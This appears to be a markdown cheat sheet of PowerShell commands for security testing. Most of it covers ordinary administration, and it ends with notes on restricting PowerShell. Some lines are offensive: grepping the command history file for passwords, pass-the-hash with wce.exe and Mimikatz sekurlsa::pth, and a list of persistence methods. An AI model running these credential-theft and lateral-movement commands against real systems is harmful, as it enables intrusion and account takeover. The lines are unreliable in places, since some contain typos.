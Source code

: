   - Function
- List all Cmdlets: 
  - `Get-Command -CommandTyle Cmdlet`
  - `Get-Command -Name *process*`
- Aliases: `Get-Alias -Name ps` `Get-Alias -Definition Get-Process`
- Check Environment
  - `C:\WIndows\Syswow64\Windowspowershell\v1.0\powershell.exe `
    - `PSModulePath`
  - Version info: `powershell -v 2.0 -c $psversiontable`
  - Language mode: `$host.runspace.languagemode`
  - Check if AppLocker is enabled: `Get-AppLockerPolicy -Local`
  - Powershell Version: `(Get-Host).Version`
  - 64bit version: `%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe`
- Modules
  - `. .\Example.ps1`
  - `Import-Module <path_to_module> -verbose`
  - List all available modules: `Get-Module -ListAvailable -All`
    - List all modules available in: `$env:PSModulePath`
  - All functions exposed by a module: `Get-Command -Module <module_name>`
- Command History (PSReadline)
  - `cat (Get-PSReadlineOption).HistorySavePath | sls password`
  - By default, the path is: `profile:\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
- System Information
  - `Get-HotFix`
- Jobs
  - Run job on a remote machine using `PSSession` or by using `-AsJob` with `-ComputerName`. With `-AsJob` it's possible to see remote jobs using `Get-Job`.
    ```
    Start-Job -ScriptBlock {whoami}
    Start-Job -FilePath <path>

    Get-Job | Receive-Job
    Get-Job -id <id> | Receive-Job
    Remove-Job
    ```
    ```
    Get-Command -ParameterName AsJob
    ```
- Directory search:`Get-HttpStatus`
- Pass the Hash with Powershell
  - <http://www.pwnag3.com/2014/05/what-did-microsoft-just-break-with.html>
    ```
    .\wce.exe –s <Administrator:.:hashes> -c PowerShell.exe

    Invoke-Mimikatz -Command "'"sekurlsa::pth /user:Administrator /domain:. /ntlm:<ntlmhash> /run:powershell.exe'""
    ```
- Persistence
  - WMI permanent event consumers
  - Windows registry
  - Scheduled tasks
- Restricting Powershell
  - <http://www.darkoperator.com/blog/2013/3/21/powershell-basics-execution-policy-and-code-signing-part-2.html>
  - Process tracking and Module logging.
  - ACL, Software Restriction Policies (SRP) and Application Control Policies (Applocker) could be used to control PowerShell. 									 										
    - Both aresupported by GPO, your mileage may vary according to your implementation preferences.
    - `__PSLockDownPolicy` (v3 only)
  - Just Enough Admin – Restrict Administrative Rights - <http://blogs.technet.com/b/privatecloud/archive/2014/05/14/just-enough-administration-step-by-step.aspx>
  - Auditing, Base lining and Incident Management
    - PoshSec - <https://github.com/PoshSec>